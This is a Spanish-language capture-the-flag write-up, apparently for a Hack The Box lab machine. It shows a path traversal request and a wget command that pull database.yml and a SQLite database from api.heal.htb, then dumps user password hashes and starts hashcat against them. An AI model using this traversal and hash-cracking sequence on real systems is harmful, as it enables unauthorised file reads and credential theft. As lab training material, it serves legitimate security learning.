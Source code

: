 despues de hacer buscarla vulnevilidad de la pgina no encontre ningun cve que autamomatirasara el proceso asi que lo aremos a burp suite y lo encotramos capturando export ass pdf

```
GET /download?filename=../../../../../config/database.yml HTTP/1.1
Host: api.heal.htb
Accept: application/json, text/plain, /
Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjozfQ.CZbGMyPLgTWm9p2lPa9pGZ0vGQ0qKgr7RG4kj1tUSGc
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Origin: http://heal.htb
Referer: http://heal.htb/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close
```

decargamos el database.yml
```
wget --header="Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjozfQ.CZbG
MyPLgTWm9p2lPa9pGZ0vGQ0qKgr7RG4kj1tUSGc" http://api.heal.htb/download?filename=../../storage/development.sqlite3 -O development.sqlite3
```

```
   1   │ ┌──(noesholk㉿noes)-[~/Documentos]
   2   │ └─$ sqlite3 development.sqlite3
   3   │ SQLite version 3.46.1 2024-08-13 09:16:08
   4   │ Enter ".help" for usage hints.
   5   │ sqlite> SELECT * FROM users
   6   │    ...> ;
   7   │ 1|ralph@heal.htb|$2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG|2024
       │ -09-27 07:49:31.614858|2024-09-27 07:49:31.614858|Administrator|ralph|1
   8   │ 2|222@333.444|$2a$12$mOKcCcvq7d6sT5JbtdAibuRkAvVzz7dfId7gAfH17FAuhLEnVQZZ.|2025-02
       │ -09 07:32:36.834334|2025-02-09 07:32:36.834334|111|555|0
   9   │ 3|noes@gmail.com|$2a$12$UJ5FijIp4ypHkZhEhzZx1en2XcaQq1LGMecScI1ZqHRHErPPeIecu|2025
       │ -02-09 07:57:43.470970|2025-02-09 07:57:43.470970|noesholk|noes|0
  10   │ sqlite>
```

```
   1   │ ┌──(noesholk㉿noes)-[~/Documentos]
   2   │ └─$ hashcat -m 3200 hash /usr/share/wordlists/rockyou.txt
   3   │ hashcat (v6.2.6) starting
   4   │ 
   5   │ OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 18.1.8, S
       │ LEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
   6   │ ==================================================================================
       │ ==========================================================
   7   │ * Device #1: cpu-haswell-AMD Athlon 3000G with Radeon Vega Graphics, 3157/6379 MB 
       │ (1024 MB allocatable), 1MCU
   8   │ 
   9   │ Minimum password length supported by kernel: 0
  10   │ Maximum password length supported by kernel: 72
  11   │ 
  12   │ Hashes: 1 digests; 1 unique digests, 1 unique salts
  13   │ Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
  14   │ Rules: 1
  15   │ 
  16   │ Optimizers applied:
  17   │ * Zero-Byte
  18   │ * Single-Hash
  19   │ * Single-Salt
  20   │ 
  21   │ Watchdog: Temperature abort trigger set to 90c
  22   │ 
```
